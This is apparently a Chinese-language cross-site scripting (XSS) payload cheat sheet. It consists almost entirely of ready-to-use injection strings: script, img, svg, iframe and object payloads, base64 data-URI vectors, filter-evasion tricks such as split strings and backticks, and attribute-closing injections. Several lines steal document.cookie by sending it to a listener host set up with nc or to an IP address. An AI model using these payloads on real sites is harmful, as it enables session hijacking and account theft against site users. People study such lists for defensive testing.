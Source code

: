 xss三种弹窗方式
alert('xss') // 直接执行
confirm('xss') // 需要点击
prompt('xss') // 需要输入

xss几种执行
<script>+弹窗方式</script>
document.write('console.log(alert("xss"))')
document.write('<script>alert(1)</\script>')
console.log(alert('xss'))
console.error(1)

<script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>

<img src=1 onerror='prompt(document.cookie)'>;

http://<img src=1 onerror="a='al',b='ert',c='(/xss/)'" />

<svg onload=confirm(1)>

<iframe src/="data:text/html;base64,PHNjcmlwdD5kb2N1bWVudC53cml0ZSgnPHNjcmlwdD5jb25mcmltKDEpPC9cc2NyaXB0PicpPFwvc2NyaXB0Pg=="></iframe>

<a href="data:text/plain;base64,PHNjcmlwdD5kb2N1bWVudC53cml0ZSgnPHNjcmlwdD5jb25mcmltKDEpPC9cc2NyaXB0PicpPFwvc2NyaXB0Pg==">111

经典
Function和function不一样  他执行括号里面第一个内容.
Function(alert('1'))()
'Function(alert('1'))()
<button onclick=alert(1)>11

<value>121</value>  <--`<img/src=` onerror=alert`1` --!>


``反引号可以代表括号使用.
';Function(alert`1`)();

<object data="data:text/plain;base64,PHNjcmlwdD5kb2N1bWVudC53cml0ZSgnPHNjcmlwdD5jb25mcmltKDEpPC9cc2NyaXB0PicpPFwvc2NyaXB0Pg=="></object>

直接绕xss  <img src='http://127.0.0.1/1.js' />
渗透机使用nc -lnvp 4444 即可绕过 
var img=new image();
img.src="http://127.0.0.1:4444/a.php?cookie="+document.cookie;

<script>document.location="http://127.0.0.1/a.php?cookie="+document.cookie+""</script> xss万能用户

 <a href="javascript:alert('hello')" >
 <iframe src="javascript:alert('hello')" />
 <img src='x' onerror="alert('hello')" />
 <video src='x' onerror="alert('hello')" ></video>
 <div onclick="alert('hello')" onmouseover="alert('hello2')" ><div>

 闭合掉
 1' onclick="alert('xss')">
 '><img src=1 onerror="alert('xss')">


<script>new Image().src="http://192.168.52.206/?co="+document.cookie;</script>